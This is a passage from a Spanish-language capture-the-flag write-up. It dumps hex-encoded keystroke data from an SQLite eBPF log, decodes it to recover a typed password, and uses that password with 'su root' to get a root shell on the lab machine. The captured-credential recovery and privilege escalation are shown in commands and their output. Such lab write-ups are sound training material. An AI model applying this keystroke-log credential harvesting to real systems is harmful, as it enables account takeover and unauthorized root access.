 La cosa yace en que la tabla tiene 9 columnas (de la `0` a la `8`), pero sólo somos capaces de ver 9 columnas.

Podríamos tratar de escribir toda la data que existe (los cuales podrían ser blobs) en un archivo. Para ello ejecutamos:

```shell-session
sqlite> .output result.txt

sqlite> SELECT hex(substr(arguments, 9, resultcode)) FROM ebpf WHERE resultcode > 0 ORDER BY timestamp;

Program interrupted.
```

Donde hemos presionado `Ctrl+C` para salir de `SQLite` y escribir los datos en un archivo llamado `result.txt`. Este archivo tiene bastantes líneas y datos que son, aparentemente, ilegibles:

```shell-session
❯ wc -l result.txt

2651 result.txt

❯ head result.txt

1B5B3F32356C
1B5B3F323568
08
2051
20
1B5B3F32356C
1B5B3F323568
33
33
1B5B3F32356C
```

Esta última columna contiene datos en hexadecimal (algo bugeados, eso sí). Por lo que podemos tratar de visualizarlos utilizando nuestra terminal:

```shell-session
❯ cat result.txt | xxd -r -p | less -S

Q 33EEddddttddww33ppMMBB [?25 |[?25l [?25 s uuddoo [?25 . //bbaacckkuupp..sshh^M[?25l[4;37[?25l^Meecchh^Mecho[?25l [?25 Q 33EEddddttddww33ppMMBB [?25 |[?25l [?25 s uudd
```

los datos estan duplicados por lo que la contraseña seria 
Q3Eddtdw3pMB

```shell-session
tomas@lantern:~$ su root

Password: Q3Eddtdw3pMB

root@lantern:/home/tomas# whoami

root
```
